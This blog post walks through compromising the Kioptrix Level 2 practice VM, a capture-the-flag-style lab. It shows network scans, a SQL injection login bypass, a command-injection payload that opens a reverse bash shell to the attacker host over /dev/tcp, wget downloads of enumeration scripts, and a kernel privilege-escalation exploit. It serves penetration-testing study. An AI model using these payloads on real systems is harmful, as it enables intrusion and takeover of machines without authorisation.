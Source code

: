 ```yaml
---
title: "Kioptrix Lvl 2 Writeup"
layout: post
date: 2017-08-29
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Writeup
- Pentest
category: blog
author: marioibarra
description: Kioptrix lvl 2 Writeup
---
```


## Kioptrix Level 2

I begin with the usual netdiscover and nmap scan of the target.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~# netdiscover -r 192.168.8.0/24


 Currently scanning: Finished!   |   Screen View: Unique Hosts                 
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.75.1    00:50:56:c0:00:08      1      60  Unknown vendor              
 192.168.75.2    00:50:56:f2:c5:e6      1      60  Unknown vendor              
 192.168.75.129  00:0c:29:4e:f5:c2      1      60  Unknown vendor              
 192.168.75.254  00:50:56:fb:35:c9      1      60  Unknown vendor 
</code></pre></figure>




<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129$ cat 192.168.75.129.nmap 
# Nmap 7.50 scan initiated Wed Jul 12 01:14:25 2017 as: nmap -sV -O -oN /home/mario/oscp/exam/192.168.75.129/192.168.75.129.nmap 192.168.75.129
Nmap scan report for 192.168.75.129
Host is up (0.00023s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4E:F5:C2 (VMware)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 12 01:14:43 2017 -- 1 IP address (1 host up) scanned in 18.45 seconds
</code></pre></figure>


Port 80 looks like an easy target and it could possibly have a mysql database on the web service.
![image](/assets/images/kioptrixlvl2/index.png)

Probing a SQL injection, I used the username "admin" and the password "' OR '1'='1".  The injection worked and I gained access to an admin web console.
![image](/assets/images/kioptrixlvl2/sql-injection.png)

This console looks like it's vulnerable to command injection...

I leave a netcat listener on port 8080 open while I attempt to open a bash shell using: "ping 192.168.75.129; bash -i >& /dev/tcp/192.168.75.135/8080 0>&1" on the admin console.
<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~$ nc -lvp 8080
listening on [any] 8080 ...
192.168.75.129: inverse host lookup failed: Unknown host
connect to [192.168.75.135] from (UNKNOWN) [192.168.75.129] 32770
bash: no job control in this shell
bash-3.00$ whoami
apache
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$  
</code></pre></figure>

A bash shell with apache privileges opened so I searched for ways to escalate privileges.

I setup a python http server on my machine and I downloaded a Linux enumeration script on the target machine in the /var/tmp directory since its writeable.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129/privesc$ python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...
</code></pre></figure>

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash">
bash-3.00$ wget http://192.168.75.135:8081/LinEnum.sh 
--02:03:18--  http://192.168.75.135:8081/LinEnum.sh
           => `LinEnum.sh'
Connecting to 192.168.75.135:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43,283 (42K) [text/x-sh]

    0K .......... .......... .......... .......... ..        100%    2.87 MB/s

02:03:18 (2.87 MB/s) - `LinEnum.sh' saved [43283/43283]
bash-3.00$ chmod 700 LinEnum.sh
bash-3.00$ wget http://192.168.75.135:8081/linprivchecker.py
--02:12:10--  http://192.168.75.135:8081/linprivchecker.py
           => `linprivchecker.py'
Connecting to 192.168.75.135:8081... searonnected.
HTTP request sent, awaiting response... 200 OK
Length: 25,308 (25K) [text/plain]

    0K .......... .......... ....                            100%    1.03 MB/s

02:12:10 (1.03 MB/s) - `linprivchecker.py' saved [25308/25308]

bash-3.00$ chmod 700 linprivchecker.py
bash-3.00$ python linprivchecker.py
</code></pre></figure>

No luck after searching for exploits so I went to my last resort and searched for kernel exploits.  I found one matching "Linux 2.6 centos 4.5" so I tested it.


<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129/privesc$ searchsploit -m 9542
Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
    URL: https://www.exploit-db.com/exploits/9542/
   Path: /usr/share/exploitdb/platforms/lin_x86/local/9542.c

Copied to '/home/mario/oscp/exam/192.168.75.129/privesc/'
</code></pre></figure>




![image](/asset/images/kioptrixlvl2/kernel-exploit.png)


It wasn't too bad getting root, but I did spend alot of time trying to use other exploits that weren't on the kernel.